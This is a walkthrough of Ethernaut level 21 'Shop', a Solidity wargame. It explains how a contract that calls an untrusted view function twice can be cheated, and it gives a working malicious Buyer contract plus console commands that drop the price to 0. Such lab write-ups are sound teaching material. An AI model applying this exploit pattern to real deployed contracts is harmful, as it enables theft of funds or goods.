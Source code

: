 # Level 21: Shop

This is the level 21 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites

- Solidity [view functions](https://docs.soliditylang.org/en/v0.8.11/contracts.html#view-functions)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

`player` has to set `price` to less than it's current value.

The new value of `price` is fetched by calling `price()` method of a `Buyer` contract. Note that there are two distinct `price()` calls - in the `if` statement check and while setting new value of `price`. A `Buyer` can cheat by returning a legit value in `price()` method of `Buyer` during the first invocation (during `if` check) and returning any less value, say 0, during second invocation (while setting `price`).

But, we can't track the number of `price()` invocation in `Buyer` contract because `price()` must be a `view` function (as per the interface) - can't write to storage! However, look closely new `price` in `buy()` is set _after_ `isSold` is set to `true`. We can read the public `isSold` variable and return from `price()` of `Buyer` contract accordingly. Bingo!

Write the malicious `Buyer` in Remix:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
    function price() external view returns (uint);
}

contract Buyer {

    function price() external view returns (uint) {
        bool isSold = IShop(msg.sender).isSold();
        uint askedPrice = IShop(msg.sender).price();

        if (!isSold) {
            return askedPrice;
        }

        return 0;
    }

    function buyFromShop(address _shopAddr) public {
        IShop(_shopAddr).buy();
    }
}
```

Get the address of `Shop`:
```javascript
contract.address

// Output: <your-instance-address>
```

Now simply call `buyFromShop` of `Buyer` with `<your-instance-address>` as only param.

The `price` in `Shop` is now 0. Verify by:
```javascript
await contract.price().then(v => v.toString())

// Output: '0'
```

Free buy!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

